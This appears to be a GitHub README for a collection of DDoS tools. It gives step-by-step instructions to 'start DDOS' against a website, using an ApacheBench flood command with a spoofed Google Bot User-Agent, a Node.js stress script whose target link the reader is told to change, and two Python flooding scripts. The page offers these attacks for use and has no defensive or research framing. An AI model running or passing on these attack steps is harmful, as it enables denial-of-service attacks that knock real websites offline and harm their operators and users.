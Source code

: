 # DDOS Tool

<!-- ![screenshot_one](./screenshot/screenshot.png) -->

![screenshot_two](./screenshot/screenshot1.png)
<br/><br/><br/><br/>

# ApacheBench

_you can start DDOS by following these steps:_
<br/>
**1. Write that command**
```bash
ab -n 100000 -c 1000 -k -r -H "User-Agent: Google Bot"  https://exemple.com/
```


<br/><br/><br/><br/>



# ddos-stress

_you can start DDOS by following these steps:_
<br/>
**1. cd ddos-stress**
<br/>
**2. npm install**
<br/>
**3. change link in code**
```javascript
stress.run('https://test.com',100);
```
<br/>
**4. node ddos-stress.js**


<br/><br/><br/><br/>



# DDOS For Сhildren
_you can start DDOS by following these steps:_
<br/>
**1. cd DDOS-For-Сhildren**
<br/>
**2. python DDOS-For-Сhildren.py**


<br/><br/><br/><br/>



# OnionTCP
_you can start DDOS by following these steps:_
<br/>
**1. cd OnionTCP**
<br/>
**2. python OnionTCP.py**



